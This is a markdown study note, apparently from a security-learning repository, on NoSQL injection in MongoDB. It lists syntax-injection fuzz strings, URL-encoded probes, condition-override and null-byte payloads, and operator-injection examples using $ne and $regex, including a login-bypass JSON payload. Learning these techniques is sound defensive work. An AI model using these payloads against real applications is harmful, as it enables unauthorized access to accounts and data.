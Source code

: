
## syntax injection 
- this type is very rare now

consider this mongodb query for the following examples : 
```js
db.users.find({ $where: function () { return this.name == <userInput> } });
```

#### **Detecting syntax injection**
- submit strings and special characters that trigger a database error or some other detectable behavior 
EX : mongodb 
```mongodb
'"`{
;$Foo}
$Foo \xYZ
```
Url version : 
```url
https://insecure-website.com/product/lookup?category='%22%60%7b%0d%0a%3b%24Foo%7d%0d%0a%24Foo%20%5cxYZ%00
```
- In some applications, you may need to inject your payload via a JSON property instead 
JSON version :
```

'\"`{\r;$Foo}\n$Foo \\xYZ\u0000
```

#### **Determining which characters are processed**
```
https://insecure-website.com/product/lookup?category='    => cause error
https://insecure-website.com/product/lookup?category=\'   => work
```

#### **Confirming conditional behavior**
```
' && 0 && 'x
' && 1 && 'x
```

#### **Overriding existing conditions**
payload:
```
'||1||'
```
url sent:
```
https://insecure-website.com/product/lookup?category=fizzy%27%7c%7c%31%7c%7c%27
```
mongodb query in backend :
```js
db.users.find({ $where: function () { return this.name == 'fizzy'||'1'=='1' } });
```

- You could also add a **null character** after the category value. MongoDB may ignore all characters after a null character. 
- This means that any additional conditions on the MongoDB query are ignored

**EX:** all products in the fizzy category are displayed, including unreleased products : 
```
db.products.find({ $where: function () { return 'fizzy'\u0000' && this.released == 1 });
```

## NoSQL operator injection

Operator | Description
--- | ---
`$where` | Matches documents that satisfy a JavaScript expression. This operator allows you to write custom JavaScript functions to filter and select documents in a collection. It's a powerful but potentially slow operator, so use it with caution.
`$ne` | Matches all values that are not equal to a specified value. It's used to find documents where a specific field is not equal to a given value.
`$in` | Matches all of the values specified in an array. It's used to find documents where a specific field's value is one of the values in a provided array.
`$regex` | Selects documents where values match a specified regular expression. It's used for pattern matching to find documents with values that match a given regular expression pattern. This is especially useful for text-based searches.


#### **Submitting query operators**

In JSON:
```json
{"username":{"$ne":"invalid"}}
```
In URL-based:
```
GET : 

http://vulnApp/login/?username[$ne]=invalid

POST :

username[$ne]=invalid

```

**EX:** Auth bypass Example : 
```json 
{
"username":{
"$regex" : "admin.*"
},
"password":{
"$ne" : "ayklam"
}
}
```

